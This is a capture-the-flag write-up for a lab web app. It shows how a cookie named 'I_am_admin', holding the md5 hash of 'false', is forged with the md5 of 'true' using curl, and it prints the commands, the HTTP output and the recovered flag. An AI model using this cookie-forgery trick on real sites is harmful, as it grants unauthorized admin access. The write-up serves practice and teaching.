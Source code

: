 # cookie

i noticed that the website stores a cookie called `I_am_admin` with a peculiar value
```sh
e1z2r10p4% curl -v -s 'http://192.168.99.100' -o /dev/null
* Rebuilt URL to: http://192.168.99.100/
*   Trying 192.168.99.100...
* TCP_NODELAY set
* Connected to 192.168.99.100 (192.168.99.100) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.99.100
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.8.0
< Date: Tue, 05 Mar 2019 03:41:11 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.3.10-1ubuntu3.19
< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Tue, 05-Mar-2019 04:41:11 GMT
< 
{ [6905 bytes data]
* Connection #0 to host 192.168.99.100 left intact
```

the value is `68934a3e9455fa72420237eb05902327` and it looks like a hash,
after a quick google search, i learned that its an **md5** hash of the string _**false**_

 ... hmm, what if we set that cookie value to an **md5** hash of the string _**true**_ ?
 let's find out ...
 
 ```sh
 e1z2r10p4% curl -s 'http://192.168.99.100' -o before.html
e1z2r10p4% echo -n 'true' | md5                          
b326b5062b2f0e69046810717534cb09
e1z2r10p4% curl -s --cookie 'I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://192.168.99.100' -o after.html 
e1z2r10p4% diff before.html after.html 
1c1
< <!DOCTYPE HTML>
---
> <script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
e1z2r10p4% 
```

##### we have the flag `df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3`
that was easy
